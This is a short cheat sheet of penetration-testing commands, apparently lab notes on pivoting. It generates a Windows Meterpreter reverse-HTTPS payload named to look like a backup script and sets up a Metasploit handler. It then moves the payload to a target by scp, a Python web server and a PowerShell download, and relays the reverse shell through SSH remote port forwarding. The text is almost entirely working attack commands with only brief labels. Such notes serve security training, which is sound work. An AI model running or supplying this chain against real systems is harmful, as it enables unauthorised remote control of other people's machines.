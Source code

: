 
Create windows payload for rev shell
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```


Open metasploit and setup handler
```shell-session
msf6 > use exploit/multi/handler
```


Transferring files over ssh 
```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```


Starting python web server on pivot host to setup local transfer with powershell
```shell-session
python3 -m http.server 8123
```

Transferring file via powershell on pivot host
```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

SSH remote port forwarding on pivot host
```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

